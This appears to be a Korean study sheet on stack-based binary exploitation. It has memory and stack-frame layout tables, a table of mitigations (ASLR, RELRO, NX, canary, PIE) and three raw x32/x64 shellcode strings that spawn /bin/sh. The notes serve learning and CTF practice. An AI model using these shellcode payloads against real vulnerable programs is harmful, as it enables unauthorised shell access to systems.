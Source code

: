 ```yaml
---


---
```


<h2 id="memory">MEMORY</h2>

<table>
<thead>
<tr>
<th>Low</th>
<th></th>
</tr>
</thead>
<tbody>
<tr>
<td></td>
<td>TEXT</td>
</tr>
<tr>
<td></td>
<td>DATA</td>
</tr>
<tr>
<td></td>
<td>BSS</td>
</tr>
<tr>
<td></td>
<td>HEAP</td>
</tr>
<tr>
<td></td>
<td>…</td>
</tr>
<tr>
<td></td>
<td>…</td>
</tr>
<tr>
<td></td>
<td>STACK</td>
</tr>
</tbody>
</table><h2 id="stack">STACK</h2>

<table>
<thead>
<tr>
<th></th>
<th></th>
</tr>
</thead>
<tbody>
<tr>
<td></td>
<td>BUFER</td>
</tr>
<tr>
<td></td>
<td>SFP</td>
</tr>
<tr>
<td></td>
<td>RET</td>
</tr>
<tr>
<td></td>
<td>…</td>
</tr>
<tr>
<td></td>
<td>…</td>
</tr>
<tr>
<td></td>
<td>…</td>
</tr>
</tbody>
</table><p>x32 SFP 는 4byte<br>
x64 SFP 는 8byte</p>
<h2 id="shell-code">SHELL CODE</h2>
<p>x32(24byte) :<br>
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80</p>
<p>x64 :<br>
\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05</p>
<p>x64(23byte):<br>
\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05</p>
<h1 id="security">SECURITY</h1>

<table>
<thead>
<tr>
<th>Name</th>
<th>Full Name</th>
<th>INFO</th>
</tr>
</thead>
<tbody>
<tr>
<td>ASLR</td>
<td>Address Space Layout Randomization</td>
<td>Heap, Stack, Libc 주소를 항상 랜덤하게 정함</td>
</tr>
<tr>
<td>RELRO</td>
<td>Relocation Read-Only</td>
<td>GOT_Overwrite 를 방지, GOT를 Read Only, 두 가지 모드 존재</td>
</tr>
<tr>
<td>DEP/NX</td>
<td>Data Execution Protection/Non-Executable</td>
<td>에그 삽입을 방지, 메모리의 실행권한을 없엠</td>
</tr>
<tr>
<td>Canary</td>
<td>-</td>
<td>BOF를 방지, Buff와 SFP 사이에 Dummy를 만듬</td>
</tr>
<tr>
<td>PIE</td>
<td>-</td>
<td>메모리 주소가 작은 범위를 다니며 PLT와 GOT가 특정 함수를 통하여 돌아다님</td>
</tr>
</tbody>
</table>
